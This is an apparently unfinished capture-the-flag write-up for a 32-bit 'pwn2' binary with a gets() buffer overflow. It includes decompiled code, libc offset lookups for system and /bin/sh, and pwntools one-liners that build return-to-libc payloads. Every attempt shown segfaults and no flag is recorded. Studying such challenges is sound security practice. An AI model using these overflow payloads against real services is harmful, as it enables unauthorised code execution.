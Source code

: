 # pwn2
Pwn

## Challenge 

I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?

nc 104.154.106.182 3456

author: codacker


## Solution

Decompile in Ghidra

	undefined4 main(void){
	  int iVar1;
	  char local_30 [44];
	  
	  setvbuf(stdout,(char *)0x0,2,0);
	  printf("$ ");
	  gets(local_30);
	  iVar1 = strcmp(local_30,"ls");
	  if (iVar1 == 0) {
	    run_command_ls();
	  }
	  else {
	    printf("bash: command not found: %s\n",local_30);
	  }
	  puts("Bye!");
	  return 0;
	}

	void run_command_ls(void){
	  system("ls");
	  return;
	}

#### return-to-libc attack

From the decompiler, address of system() function is 0x080483f0

And we can search for a string /bin/bash in libc

	(gdb) info proc map
	process 517
	Mapped address spaces:

		Start Addr   End Addr       Size     Offset objfile
		 0x8048000  0x8049000     0x1000        0x0 /FILES/pwn2
		 0x8049000  0x804a000     0x1000        0x0 /FILES/pwn2
		 0x804a000  0x804b000     0x1000     0x1000 /FILES/pwn2
		0xf7def000 0xf7fc2000   0x1d3000        0x0 /usr/lib32/libc-2.27.so
	...

And find the address at 0x17c968

	# strings -a -t x /usr/lib32/libc-2.27.so | grep /bin/sh
	 17c968 /bin/sh

---

### ???

https://bitvijays.github.io/LFC-BinaryExploitation.html


https://0x00sec.org/t/pwnable-rop-me-like-you-do/2687/20


System, strcmp, /bin/sh

	root@zst_ctf:/FILES # readelf -s /lib32/libc.so.6 | grep system
	   254: 00127dd0   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
	   652: 0003d7e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
	  1510: 0003d7e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
	
	root@zst_ctf:/FILES # readelf -s /lib32/libc.so.6 | grep strcmp
	  2048: 00086020     5 FUNC    GLOBAL DEFAULT   13 __strcmp_gg@GLIBC_2.1.1
	  2348: 0007e4b0    54 IFUNC   GLOBAL DEFAULT   13 strcmp@@GLIBC_2.0
	
	root@zst_ctf:/FILES # strings -a -t x /lib32/libc.so.6 | grep /bin/sh
	 17c968 /bin/sh

	root@zst_ctf:/FILES #   readelf -s /lib32/libc.so.6 | grep puts  
	212: 00067e30   474 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.0

Offsets

	system = 0003d7e0
	strcmp = 0007e4b0
	/bin/sh = 17c968


found libc's address by using "ldd"

	# ldd pwn2
		linux-gate.so.1 (0xf7799000)
		libc.so.6 => /lib32/libc.so.6 (0xf75b4000)
		/lib/ld-linux.so.2 (0xf779a000)

Run

	Segmentation fault
	root@zst_ctf:/FILES # python -c "from pwn import *; print '/bin/sh\x00' + cyclic(44 - 8) + p32(0x080483e0) + p32(0xf7def000 + 0x17c968)" | ./pwn2 
	$ bash: command not found: /bin/sh
	Bye!
	/bin/sh
	Segmentation fault



wrapper functions
	printf = 0x080483c0
	gets = 0x080483c0
	puts = 0x080483e0
	system = 0x080483f0


https://security.stackexchange.com/questions/168101/return-to-libc-finding-libcs-address-and-finding-offsets


	             _GLOBAL_OFFSET_TABLE_:
	0804a000         db  0x14 ; '.'
	0804a001         db  0x9f ; '.'
	0804a002         db  0x04 ; '.'
	0804a003         db  0x08 ; '.'
	0804a004         db  0x00 ; '.'
	0804a005         db  0x00 ; '.'
	0804a006         db  0x00 ; '.'
	0804a007         db  0x00 ; '.'
	0804a008         db  0x00 ; '.'
	0804a009         db  0x00 ; '.'
	0804a00a         db  0x00 ; '.'
	0804a00b         db  0x00 ; '.'
	             strcmp@GOT:        // strcmp
	0804a00c         dd         0x0804b000                                          ; DATA XREF=j_strcmp
	             printf@GOT:        // printf
	0804a010         dd         0x0804b004                                          ; DATA XREF=j_printf
	             gets@GOT:        // gets
	0804a014         dd         0x0804b008                                          ; DATA XREF=j_gets
	             puts@GOT:        // puts
	0804a018         dd         0x0804b00c                                          ; DATA XREF=j_puts
	             system@GOT:        // system
	0804a01c         dd         0x0804b010                                          ; DATA XREF=j_system
	             __gmon_start__@GOT:        // __gmon_start__
	0804a020         dd         0x0804b014                                          ; DATA XREF=j___gmon_start__
	             __libc_start_main@GOT:        // __libc_start_main
	0804a024         dd         0x0804b018                                          ; DATA XREF=j___libc_start_main
	             setvbuf@GOT:        // setvbuf
	0804a028         dd         0x0804b01c 



0804a008

080483f0

	python -c "from pwn import *; print cyclic(44) + p32(0x080483f0)" | ./pwn2 
	python -c "from pwn import *; print cyclic(44) + p32(0x008048541) + p32(0x080483f0) + p32(0x017c968 + 0x0804a008)" | ./pwn2 


	root@zst_ctf:/FILES # python -c "from pwn import *; print cyclic(44) + p32(0x008048541) + 'hi'" | strace ./pwn2 




## Flag

	??